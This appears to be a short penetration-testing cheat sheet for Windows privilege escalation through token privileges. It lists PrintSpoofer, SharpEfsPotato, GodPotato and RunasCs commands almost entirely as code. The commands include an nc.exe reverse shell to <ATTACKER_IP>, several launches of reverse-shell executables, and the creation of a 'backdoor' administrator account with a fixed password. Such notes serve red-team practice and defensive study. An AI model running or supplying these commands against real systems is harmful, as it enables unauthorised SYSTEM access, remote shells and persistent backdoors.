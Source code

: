 Check token privileges
```
whoami /priv
```
PrintSpoofer
```
.\PrintSpoofer64.exe -c "nc.exe <ATTACKER_IP> <PORT> -e cmd"
.\PrintSpoofer64.exe -i -c powershell.exe
.\PrintSpoofer64.exe -c rev.exe -i
```
SharpEfsPotato
```
.\SharpEfsPotato.exe -p rev.exe
```
GodPotato
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
GodPotato.exe -cmd "C:\Users\Public\reverse.exe"
GodPotato.exe -cmd "net user /add backdoor Password123"
GodPotato.exe -cmd "net localgroup administrators /add backdoor"
RunasCs.exe backdoor Password123 "C:/Users/Public/rev.exe" --force-profile --logon-type 8
```